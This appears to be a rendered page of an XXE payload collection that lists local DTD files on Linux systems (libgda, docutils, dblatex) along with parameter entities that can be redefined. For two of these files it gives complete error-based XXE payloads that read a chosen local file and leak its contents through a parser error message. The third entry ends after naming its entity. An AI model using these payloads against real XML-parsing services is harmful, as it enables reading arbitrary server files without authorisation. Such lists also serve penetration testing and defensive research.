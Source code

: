```
<message></message>
```

 --- 

**DTD File:** `/usr/share/libgda-5.0/dtd/libgda-paramlist.dtd`

**Injectable entity:** `%array-dtd`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/libgda-5.0/dtd/libgda-paramlist.dtd">

    <!ENTITY % array-dtd '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/usr/share/xml/docutils/docutils.dtd`

**Injectable entity:** `%measure`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/docutils/docutils.dtd">

    <!ENTITY % measure '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/usr/share/dblatex/schema/dblatex-config.dtd`

**Injectable entity:** `%attlist.modname`
